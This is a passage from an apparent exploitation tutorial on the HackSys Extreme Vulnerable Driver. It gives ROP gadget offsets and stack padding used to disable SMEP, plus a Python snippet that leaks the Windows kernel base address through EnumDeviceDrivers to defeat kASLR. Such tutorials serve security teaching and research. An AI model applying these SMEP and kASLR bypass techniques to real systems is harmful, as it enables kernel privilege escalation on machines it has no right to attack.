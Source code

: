 </div>

The offset is `0011f8de`. We’ll use that later.

Now we need to find a `pop eax # ret` gadget. We can find one at
`nt!_MapCMDevicePropertyToNtProperty+0x39`:

<div class="imgblock">

![POP EAX ROP](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330912/blog/hevd-smep-bypass/popeax-rop_fuafnn.webp)

</div>

And the offset from the start of the `nt` module is `0002bbef`:

<div class="imgblock">

![POP EAX Offset](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330912/blog/hevd-smep-bypass/offset2_tzgwnp.webp)

</div>

We must remember to pad our `ROP` chain with 8 bytes because the
overflowed function epilog uses `ret 8` which will return to the value
pointed by `ESP` and then will pop 8 bytes from the stack:

<div class="imgblock">

![ROP Padding](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330911/blog/hevd-smep-bypass/rop-padding_b9rtmd.webp)

</div>

With that, we can now disable `SMEP`\!

## Defeating kASLR

We’ve got all the required information to create the `ROP` chain to
disable `SMEP`. However, we need to deal with kernel `ASLR`. As I
mentioned before, there are several functions that can be executed in
user mode (`ring-3`) that can give information of addresses at `ring-0`.
The most used are `NtQuerySystemInformation()` and
`EnumDeviceDrivers()`. The later is the simpler. With the following
code, you can get the kernel base address:

``` python
import sys
from ctypes import windll, c_ulong, byref, sizeof

PSAPI = windll.psapi

def get_kernel_base():
    """Obtain kernel base address."""
    buff_size = 0x4

    base = (c_ulong * buff_size)(0)

    if not PSAPI.EnumDeviceDrivers(base, sizeof(base), byref(c_ulong())):
        print('Failed to get kernel base address.')
        sys.exit(1)
    return base[0]

BASE_ADDRESS = get_kernel_base()
print(f'Obtained kernel base address: {hex(BASE_ADDRESS)}')
```
